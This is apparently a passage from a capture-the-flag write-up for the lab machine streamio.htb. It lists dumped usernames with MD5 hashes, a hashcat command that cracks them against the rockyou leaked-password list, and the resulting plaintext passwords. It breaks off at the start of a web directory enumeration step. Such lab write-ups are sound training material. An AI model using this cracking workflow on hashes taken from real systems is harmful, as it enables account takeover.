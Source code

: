 ```
Garfield:8097cedd612cc37c29db152b6e9edbd3
Juliette:6dcd87740abb64edfa36d170f0d5450d
Victor:bf55e15b119860a6e6b5a164377da719
Lucifer:7df45a9e3de3863807c026ba48e55fb3
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8
Diablo:ec33265e5fc8c2f1b0c137bb7b3632b5
Robin:dc332fb5576e9631c9dae83f194f8e70
Stan:384463526d288edcc95fc3701e523bc7
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332
admin:665a50ac9eaa781e4f7f04199db97a11
```

Using hashcat it shouldn't take more then few seconds:

```
hashcat streamio.hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -m 0 --user
```

Which yields following results:

```
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```

## Enumeration v.2 - streamio.htb

Now we've got few credentials, but no place to login.

I use Feroxbuster for recursive web director enumeration and it did undeed found some interesting directories:

